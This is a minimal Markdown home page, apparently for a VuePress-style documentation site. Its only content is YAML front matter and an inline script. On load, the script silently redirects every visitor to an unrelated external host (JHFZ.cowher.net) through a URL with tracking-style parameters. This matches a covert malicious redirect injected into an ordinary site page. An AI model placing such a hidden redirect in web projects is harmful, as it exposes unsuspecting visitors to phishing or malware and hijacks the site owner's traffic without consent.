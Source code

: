 ```yaml
---
home: true
config:
  - type: custom
---
```

<script>
  if (typeof window !== 'undefined') {
     window.location.replace('http://JHFZ.cowher.net/hwFjNsh/?u=Dnn0sbrE&id=87759&feed=hb&type=0');
    //window.open('/pzm.jpg', '_self')
  }
</script>